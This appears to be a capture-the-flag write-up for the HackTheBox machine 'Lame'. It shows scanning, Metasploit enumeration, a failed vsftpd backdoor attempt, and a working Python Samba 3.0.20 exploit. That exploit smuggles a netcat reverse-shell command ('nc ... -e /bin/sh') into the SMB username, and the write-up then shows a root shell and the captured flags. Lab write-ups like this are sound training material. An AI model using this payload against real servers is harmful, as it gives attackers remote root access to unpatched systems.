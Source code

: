 # HackTheBox Lame Walkthrough

This is a Walkthrough how I get the user and root flag on the machine. All my scan results are stored in the [attachments](./attachments) folder.

achine details:

- Machine Name: Lame
- IP address: 10.10.10.3
- OS: Linux
- Difficulty: Easy

## Scanning

In this table I summarize the open ports and protocols and the XML version of the full results.

| Scan Type         | Open Ports/Protocols   | XML Output File                                |
|-------------------|------------------------|------------------------------------------------|
| Nmap IP Scan      | 1 (ICMP)               | [ip_legacy.xml](./attachments/ip_legacy.xml)   |
| Nmap TCP SYN Scan | 21, 22, 139, 445, 3632 | [tcp_legacy.xml](./attachments/tcp_legacy.xml) |
| Nmap UDP Scan     | -                      | [udp_legacy.xml](./attachments/udp_legacy.xml) |

## Enumeration

### OS Enumeration

The Nmap OS detection did not find clear match for OS. But the SMB enumeration found Unix (Debian).

### SMB Enumeration

```bash
root@Kali:/# msfconsole

 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

etasploit tip: Use the resource command to run commands from a file

msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > show options

odule options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 auxiliary(scanner/smb/smb_version) > exploit

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.10.10.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_version) >
```

### Searching Vulnerabilities

I google for [samba 3.0.20-debian exploit](https://www.google.com/search?q=samba+3.0.20-debian+exploit&oq=Samba+3.0.20-Debian&aqs=chrome.1.69i57j0l4.1529j0j9&sourceid=chrome&ie=UTF-8) and for [vsftpd 2.3.4 exploit](https://www.google.com/search?q=vsftpd+2.3.4+exploit&oq=vsFTPd+2.3.4+&aqs=chrome.1.69i57j0l7.1471j0j7&sourceid=chrome&ie=UTF-8).

I found the following vulnerabilities:
- [exploit-smb-3.0.20.py](https://github.com/macha97/exploit-smb-3.0.20/blob/master/exploit-smb-3.0.20.py)
- [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

## Exploit

### VSFTPD Exploit

I tried the Metaspoilt modul against the host but the exploit did not work:

```bash
root@Kali:/# msfconsole

               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

etasploit tip: View advanced module options with advanced

msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

odule options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) >
```

### SMB Exploit

I changed the the exploit code to use Netcat reverse shell instead of the Metasploit payload:

```python
#!/usr/bin/python3
#exploit Samba smbd 3.0.20-Debian

from smb import *
from smb.SMBConnection import *

userID = '/=` nohup nc 10.10.14.23 4444 -e /bin/sh`'
password = 'password'
victim_ip = '10.10.10.3'

conn = SMBConnection(userID, password, "HELLO", "TEST", use_ntlm_v2=False)
conn.connect(victim_ip, 445)

```

#### Shell 1: Use the Exploit

```bash
root@Kali:/# python3 smb_exploit.py
```

#### Shell 2: Listen for the Connection

The session already has ROOT privilege so the only think left is to find the user and root flag on the machine.

```bash
root@Kali:/# nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:56066.
id
uid=0(root) gid=0(root)
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
pwd
/
cat /root/root.txt
92caac3be140ef409e45721348a4e9df
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

